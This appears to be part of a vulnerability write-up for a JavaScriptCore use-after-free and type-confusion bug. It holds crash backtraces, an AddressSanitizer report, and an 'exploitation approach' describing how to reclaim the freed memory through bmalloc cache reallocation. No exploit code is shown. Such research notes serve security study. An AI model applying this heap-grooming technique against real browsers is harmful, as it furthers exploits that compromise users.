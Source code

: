 ```
18  0x10427d2dd runWithOptions(GlobalObject*, CommandLine&, bool&)
19  0x10420db14 jscmain(int, char**)::$_4::operator()(JSC::VM&, GlobalObject*, bool&) const
20  0x1041b6847 int runJSC<jscmain(int, char**)::$_4>(CommandLine const&, bool, jscmain(int, char**)::$_4 const&)
21  0x1041b334c jscmain(int, char**)
22  0x1041b310e main
23  0x7fff599ba3d5 start
24  0x2
Illegal instruction: 4
lucy:bin akayn$ 
```

***Note: that the later assert is because the dfg has time to optimize (because of the loop) types for the curropted cell blocks ..***

***exploitation approach:***

in order to turn this type confusion into anything usefull we first we need to control, <br>
or reclaim the dangling pointers, backing storage.<br>
but where is the object backing storage allocated??<br>
after messing around with this poc for a while i observed the following:<br>
in the below code, the asan<br>
output for the uaf, is telling us that this<br>
memory chunk was allocated on the cache.<br>
Therefor, if we reallocate (in a similar manner) new objects 
we can replace the memory on the cache<br>

Excpected result:<br>

```
/*
before the replacment:
                           
print(x[0]);
                   
=================================================================
==1570==ERROR: AddressSanitizer: heap-use-after-free on address 0x604002576529 at pc 0x00010224d103 bp 0x7ffeefbfcaf0 sp 0x7ffeefbfcae8
     READ of size 1 at 0x604002576529 thread T0
#0 0x10224d102 in operationGetByValOptimize (JavaScriptCore:x86_64+0x2081102)
#1 0x5b9790a08d73  (<unknown module>)
#2 0x1023b39e6 in llint_entry (JavaScriptCore:x86_64+0x21e79e6)
#3 0x1023a45b8 in vmEntryToJavaScript (JavaScriptCore:x86_64+0x21d85b8)
#4 0x101f52ec7 in JSC::Interpreter::executeProgram(JSC::SourceCode const&, JSC::ExecState*, JSC::JSObject*) (JavaScriptCore:x86_64+0x1d86ec7)
#5 0x1029bef6b in JSC::evaluate(JSC::ExecState*, JSC::SourceCode const&, JSC::JSValue, WTF::NakedPtr<JSC::Exception>&) (JavaScriptCore:x86_64+0x27f2f6b)
#6 0x100012444 in jscmain(int, char**) (jsc:x86_64+0x100012444)
#7 0x10001048a in main (jsc:x86_64+0x10001048a)
#8 0x7fff793a53d4 in start (libdyld.dylib:x86_64+0x163d4)
   0x604002576529 is located 25 bytes inside of 34-byte region [0x604002576510,0x604002576532)
freed by thread T0 here:
    #0 0x1046bf11b in __sanitizer_mz_free (libclang_rt.asan_osx_dynamic.dylib:x86_64h+0x5d11b)
    #1 0x1039f6534 in bmalloc::DebugHeap::free(void*) (JavaScriptCore:x86_64+0x382a534)
    
    #2 0x1039ef2b8 in bmalloc::Cache::deallocateSlowCaseNullCache(  <----------------------- bmalloc::Cache:: ...
            
            bmalloc::HeapKind, void*) (JavaScriptCore:x86_64+0x38232b8)           
                          
                                
SUMMARY: AddressSanitizer: heap-use-after-free (JavaScriptCore:x86_64+0x2081102) in operationGetByValOptimize
 Shadow bytes around the buggy address:
     0x1c08004aec50: fa fa 00 00 00 00 00 fa fa fa 00 00 00 00 00 fa
```